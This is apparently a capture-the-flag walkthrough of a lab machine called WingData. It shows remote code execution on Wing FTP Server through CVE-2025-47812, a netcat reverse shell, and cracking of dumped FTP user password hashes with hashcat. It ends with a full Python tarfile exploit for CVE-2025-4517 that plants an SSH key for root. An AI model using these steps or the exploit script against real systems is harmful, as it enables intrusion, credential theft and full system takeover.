



## Reconnaissance

We'll start with the port enumeration.
```bash

…/workbench/VMs/WingData 
▌✦ sudo nmap -p- --min-rate 5000 -sS 10.129.244.106 -oG content/allPorts
[sudo] password for zodiak: 
Starting Nmap 7.993 ( https://nmap.org ) at 2026-11-16 18:58 +0100
Nmap scan report for 10.129.244.106
Host is up (0.055s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 27.02 seconds

…/workbench/VMs/WingData 
▌✦ nmap -p22,80 -sVC 10.129.244.106 -oG content/targeted
Starting Nmap 7.993 ( https://nmap.org ) at 2026-11-16 19:00 +0100
Nmap scan report for 10.129.244.106
Host is up (0.083s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
|_  256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.66
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: Did not follow redirect to http://wingdata.htb/
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.71 seconds
```

We'll add the host that we have discovered.
```bash

…/workbench/VMs/WingData   12s
▌✦ echo '10.129.244.106 wingdata.htb' | sudo tee -a /etc/hosts
10.129.244.106 wingdata.htb
```

If we check the page we see a button that says ***Client Portal*** which redirects to `ftp.wingdata.htb` so we will add that domain to out `/etc/hosts`.


When we access we are redirected to a login page where we are able to see that the page is running on `Wing FTP Server v7.4.3`.

## Explotation

Checking on the CVEs that applies for this version, we are able to identify that it is vulnerable to [CVE-2025-47812](https://nvd.nist.gov/vuln/detail/cve-2025-47812) which allows RCE injecting Lua code on the username after '\0' bytes as it misshandles them.

#### CVE-2025-47812

To exploit this vuln, we will use the script of [ExploitDB](https://www.exploit-db.com/exploits/52347).
```bash
…/workbench/VMs/WingData
▌✦ searchsploit 'Wing FTP Server 7.4.3' 
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Wing FTP Server 7.4.3 - Unauthenticated Remote Code Execution  (RCE)                                                                                   | multiple/remote/52347.py
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

…/workbench/VMs/WingData 
▌✦ cp $(locate multiple/remote/52347.py) ./exploits/exploit.py

…/workbench/VMs/WingData 
▌✦ python ./exploits/exploit.py --help                        
usage: exploit.py [-h] [-u URL] [-f FILE] [-c COMMAND] [-v] [-o OUTPUT] [-U USERNAME]

Exploit script for command injection via login.html.

options:
  -h, --help            show this help message and exit
  -u, --url URL         Target URL (e.g., http://192.168.134.130). Required if -f not specified.
  -f, --file FILE       File containing list of target URLs (one per line).
  -c, --command COMMAND
                        Custom command to execute. Default: whoami. If specified, verbose output is enabled automatically.
  -v, --verbose         Show full command output (verbose mode). Ignored if -c is used since verbose is auto-enabled.
  -o, --output OUTPUT   File to save vulnerable URLs.
  -U, --username USERNAME
                        Username to use in the exploit payload. Default: anonymous

…/workbench/VMs/WingData 
▌✦ cat ./exploits/exploit.py                                  

…/workbench/VMs/WingData   1m13s
▌✦ python ./exploits/exploit.py --url http://ftp.wingdata.htb -c 'id'

[*] Testing target: http://ftp.wingdata.htb
[+] Sending POST request to http://ftp.wingdata.htb/loginok.html with command: 'id' and username: 'anonymous'
[+] UID extracted: c8115e86da849f90064f3ccd5121327ef528764d624db129b32c21fbca0cb8d6
[+] Sending GET request to http://ftp.wingdata.htb/dir.html with UID: c8115e86da849f90064f3ccd5121327ef528764d624db129b32c21fbca0cb8d6

--- Command Output ---
uid=1000(wingftp) gid=1000(wingftp) groups=1000(wingftp),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
----------------------
```

With this we have tested that it is vulnerable, now we will start a reverse shell but exploiting it with burpsuite.



```bash
…/workbench/VMs/WingData   15s
▌✦ nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 10.129.98.191 55780
bash: cannot set terminal process group (3525): Inappropriate ioctl for device
bash: no job control in this shell
wingftp@wingdata:/opt/wftpserver$ id
uid=1000(wingftp) gid=1000(wingftp) groups=1000(wingftp),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
wingftp@wingdata:/opt/wftpserver$ stty -raw echo
```

As you can see we sent the Payload and used the Cookie obtained to execute it.
## Privilege escalation

Let's list all possible users
```bash
wingftp@wingdata:/opt/wftpserver$ cat /etc/passwd | grep -E 'sh$'
cat /etc/passwd | grep -E 'sh$'
root:x:0:0:root:/root:/bin/bash
wingftp:x:1000:1000:WingFTP Daemon User,,,:/opt/wingftp:/bin/bash
wacky:x:1001:1001::/home/wacky:/bin/bash
```

### wacky
After Checking for a while we are able to see on `/otp/wftpserver/Data/1/users` a lot of `.xml` files that contains passwords so we will crack them.
```bash
wingftp@wingdata:/opt/wftpserver$ cat Data/1/users/wacky.xml
cat Data/1/users/wacky.xml
<?xml version="1.0" ?>
<USER_ACCOUNTS Description="Wing FTP Server User Accounts">
    <USER>
        <UserName>wacky</UserName>
        <EnableAccount>1</EnableAccount>
        <EnablePassword>1</EnablePassword>
        <Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
        <ProtocolType>63</ProtocolType>
        <EnableExpire>0</EnableExpire>
        <ExpireTime>2025-12-02 12:02:46</ExpireTime>
        <MaxDownloadSpeedPerSession>0</MaxDownloadSpeedPerSession>
        <MaxUploadSpeedPerSession>0</MaxUploadSpeedPerSession>
        <MaxDownloadSpeedPerUser>0</MaxDownloadSpeedPerUser>
        <MaxUploadSpeedPerUser>0</MaxUploadSpeedPerUser>
        <SessionNoCommandTimeOut>5</SessionNoCommandTimeOut>
        <SessionNoTransferTimeOut>5</SessionNoTransferTimeOut>
        <MaxConnection>0</MaxConnection>
        <ConnectionPerIp>0</ConnectionPerIp>
        <PasswordLength>0</PasswordLength>
        <ShowHiddenFile>0</ShowHiddenFile>
        <CanChangePassword>0</CanChangePassword>
        <CanSendMessageToServer>0</CanSendMessageToServer>
        <EnableSSHPublicKeyAuth>0</EnableSSHPublicKeyAuth>
        <SSHPublicKeyPath></SSHPublicKeyPath>
        <SSHAuthMethod>0</SSHAuthMethod>
        <EnableWeblink>1</EnableWeblink>
        <EnableUplink>1</EnableUplink>
        <EnableTwoFactor>0</EnableTwoFactor>
        <TwoFactorCode></TwoFactorCode>
        <ExtraInfo></ExtraInfo>
        <CurrentCredit>0</CurrentCredit>
        <RatioDownload>1</RatioDownload>
        <RatioUpload>1</RatioUpload>
        <RatioCountMethod>0</RatioCountMethod>
        <EnableRatio>0</EnableRatio>
        <MaxQuota>0</MaxQuota>
        <CurrentQuota>0</CurrentQuota>
        <EnableQuota>0</EnableQuota>
        <NotesName></NotesName>
        <NotesAddress></NotesAddress>
        <NotesZipCode></NotesZipCode>
        <NotesPhone></NotesPhone>
        <NotesFax></NotesFax>
        <NotesEmail></NotesEmail>
        <NotesMemo></NotesMemo>
        <EnableUploadLimit>0</EnableUploadLimit>
        <CurLimitUploadSize>0</CurLimitUploadSize>
        <MaxLimitUploadSize>0</MaxLimitUploadSize>
        <EnableDownloadLimit>0</EnableDownloadLimit>
        <CurLimitDownloadLimit>0</CurLimitDownloadLimit>
        <MaxLimitDownloadLimit>0</MaxLimitDownloadLimit>
        <LimitResetType>0</LimitResetType>
        <LimitResetTime>1762103089</LimitResetTime>
        <TotalReceivedBytes>0</TotalReceivedBytes>
        <TotalSentBytes>0</TotalSentBytes>
        <LoginCount>2</LoginCount>
        <FileDownload>0</FileDownload>
        <FileUpload>0</FileUpload>
        <FailedDownload>0</FailedDownload>
        <FailedUpload>0</FailedUpload>
        <LastLoginIp>127.0.0.1</LastLoginIp>
        <LastLoginTime>2025-11-02 12:28:52</LastLoginTime>
        <EnableSchedule>0</EnableSchedule>
    </USER>
</USER_ACCOUNTS>
wingftp@wingdata:/opt/wftpserver$ cd Data
cd Data
wingftp@wingdata:/opt/wftpserver/Data$ grep -r "<Password>" . | sed -E 's#.*/([^/]+)\.xml:.*<[^>]+>([0-9a-fA-F]+)</[^>]+>.*#\1:\2:WingFTP#'                     
grep -r "<Password>" . | sed -E 's#.*/([^/]+)\.xml:.*<[^>]+>([0-9a-fA-F]+)</[^>]+>.*#\1:\2:WingFTP#'
admins:a8339f8e4465a9c47158394d8efe7cc45a5f361ab983844c8562bef2193bafba:WingFTP
maria:a70221f33a51dca76dfd46c17ab17116a97823caf40aeecfbc611cae47421b03:WingFTP
steve:5916c7481fa2f20bd86f4bdb900f0342359ec19a77b7e3ae118f3b5d0d3334ca:WingFTP
wacky:32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP
anonymous:d67f86152e5c4df1b0ac4a18d3ca4a89c1b12e6b748ed71d01aeb92341927bca:WingFTP
john:c1f14672feec3bba27231048271fcdcddeb9d75ef79f6889139aa78c9d398f10:WingFTP
```

Now store the passwords and usernames and crack them.
```bash
…/workbench/VMs/WingData 
▌✦ echo 'admins:a8339f8e4465a9c47158394d8efe7cc45a5f361ab983844c8562bef2193bafba:WingFTP                                    
maria:a70221f33a51dca76dfd46c17ab17116a97823caf40aeecfbc611cae47421b03:WingFTP
steve:5916c7481fa2f20bd86f4bdb900f0342359ec19a77b7e3ae118f3b5d0d3334ca:WingFTP
wacky:32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP
anonymous:d67f86152e5c4df1b0ac4a18d3ca4a89c1b12e6b748ed71d01aeb92341927bca:WingFTP
john:c1f14672feec3bba27231048271fcdcddeb9d75ef79f6889139aa78c9d398f10:WingFTP' > hashes

…/workbench/VMs/WingData 
▌✦ hashcat -m 1410 --user hashes ~/Downloads/rockyou.txt
hashcat (v8.0.0) starting

OpenCL API (OpenCL 3.0 PoCL 7.2  Linux, Release, RELOC, LLVM 20.1.8, SLEEF, DISTRO, CUDA, POCL_DEBUG) - Platform #1 [The pocl project]
======================================================================================================================================
* Device #01: cpu-haswell-Intel(R) Core(TM) Ultra 9 275HX, 5893/11850 MB (5925 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Dictionary cache hit:
* Filename..: /home/zodiak/Downloads/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497

Hashes: 6 digests; 6 unique digests, 1 unique salts
Bitmaps: 18 bits, 262144 entries, 0x0003ffff mask, 1048576 bytes
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory allocated for this attack: 516 MB (12689 MB free)

d67f86152e5c4df1b0ac4a18d3ca4a89c1b12e6b748ed71d01aeb92341927bca:WingFTP:             
Approaching final keyspace - workload adjusted.                                       

32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP:!#7Blushing^*Bride5
                                                                                      
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1410 (sha256($pass.$salt))
Hash.Target......: hashes
Time.Started.....: Mon Nov 16 21:10:22 2026 (2 secs)
Time.Estimated...: Mon Nov 16 21:10:24 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: Feed (/home/zodiak/Downloads/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  9657.1 kH/s (0.23ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 2/6 (33.33%) Digests (total), 2/6 (33.33%) Digests (new)
Progress.........: 14344391/14344391 (100.00%)
Rejected.........: 7/14344391 (0.01%)
Restore.Point....: 14344391/14344391 (100.00%)
Restore.Sub......: #01:0/0
Candidate.Engine.: Host Generator + PCIe
Candidates.#01...:  km81088 -> $HEX[042a0337c2a156616d6f732103]

Started: Mon Nov 16 21:10:20 2026
Stopped: Mon Nov 16 21:10:24 2026
```

Let's test a ssh Connection
```bash
…/workbench/VMs/WingData 
▌✦ sshpass -p '!#7Blushing^*Bride5' ssh wacky@wingdata.htb
Linux wingdata 6.1.0-42-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.159-1 (2025-12-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Nov 16 15:11:27 2026 from 10.10.16.85
wacky@wingdata:~$ cat user.txt 
2f4c37dd6cbc968ec60b01f0f185efdd
wacky@wingdata:~$ 
```

### root

Checking with `sudo -l` we are able to see that we can execute a backup python script.
```bash
wacky@wingdata:~$ sudo -l
Matching Defaults entries for wacky on wingdata:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User wacky may run the following commands on wingdata:
    (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

Checking the python version we see that it is `Python 3.12.3` which is vulnerable to [CVE-2025-4517](https://nvd.nist.gov/vuln/detail/cve-2025-4517).

#### CVE-2025-4517

This vulnerabilty affects the Tar library on python. It uses the symlinks processing the paths on them when they are bigger than `PATH_MAX` replacing the symlinks to `os.path.realpath()`. This allows us read and write files with the privileges of the user that runs the script (root in this case) and we'll be able to upload our public SSH key.

We'll start the script that creates the symlink.
```python
import io
import os
import sys
import tarfile


pubkey = b"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJs5whYVjNmJvWBw9AYndmQ1iS8k6N9P6KVGMmM/kndr zodiak@HackArch\n"

comp = "d" * (55 if sys.platform == "darwin" else 247)
steps = "abcdefghijklmnop"
path = ""

with tarfile.open("backup_2.tar", "x") as tar:
    for i in steps:
        a = tarfile.TarInfo(os.path.join(path, comp))
        a.type = tarfile.DIRTYPE
        tar.addfile(a)

        b = tarfile.TarInfo(os.path.join(path, i))
        b.type = tarfile.SYMTYPE
        b.linkname = comp
        tar.addfile(b)

        path = os.path.join(path, comp)

    linkpath = os.path.join("/".join(steps), "l" * 254)

    l = tarfile.TarInfo(linkpath)
    l.type = tarfile.SYMTYPE
    l.linkname = "../" * len(steps)
    tar.addfile(l)

    e = tarfile.TarInfo("escape")
    e.type = tarfile.SYMTYPE
    e.linkname = linkpath + "/../../../../root/.ssh/authorized_keys"
    tar.addfile(e)

    f = tarfile.TarInfo("inject")
    f.type = tarfile.LNKTYPE
    f.linkname = "escape"
    tar.addfile(f)

    c = tarfile.TarInfo("inject")
    c.type = tarfile.REGTYPE
    c.size = len(pubkey)
    tar.addfile(c, fileobj=io.BytesIO(pubkey))
```

let's execute it.

```bash
wacky@wingdata:~$ python3 script.py 
wacky@wingdata:~$ ls
backup_2.tar  script.py  user.txt
wacky@wingdata:~$ cp backup_2.tar /opt/backup_clients/backups/
wacky@wingdata:~$ sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_2.tar --restore-dir restore_1
[+] Backup: backup_2.tar
[+] Staging directory: /opt/backup_clients/restored_backups/restore_1
[+] Extraction completed in /opt/backup_clients/restored_backups/restore_1
```

Now let's test the ssh connection.
```bash
…/workbench/VMs/WingData 
▌✦ ssh root@wingdata.htb -i ~/.ssh/vuln_vm 
Linux wingdata 6.1.0-42-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.159-1 (2025-12-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Nov 16 15:59:56 2026 from 10.10.16.85
root@wingdata:~# cat root.txt 
142e15f706ae830fe2631fbf1b55a51d
root@wingdata:~#
```
